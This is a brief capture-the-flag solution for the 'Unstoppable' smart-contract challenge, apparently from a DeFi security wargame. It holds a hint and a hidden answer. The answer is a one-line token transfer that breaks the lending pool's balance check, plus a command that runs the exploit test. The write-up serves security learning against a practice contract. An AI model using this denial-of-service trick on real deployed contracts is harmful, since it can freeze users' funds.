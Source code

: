 # Unstoppable

**HINT:** Look at the ```depositTokens()``` function and how it works

<details>
<summary>Answer</summary>
<p>

A simple token transfer will do the job
```js
await this.token.transfer(this.pool.address, INITIAL_ATTACKER_BALANCE, { from: attacker });
```

```sh
npm run unstoppable.challenge.js
```

</p>
</details>
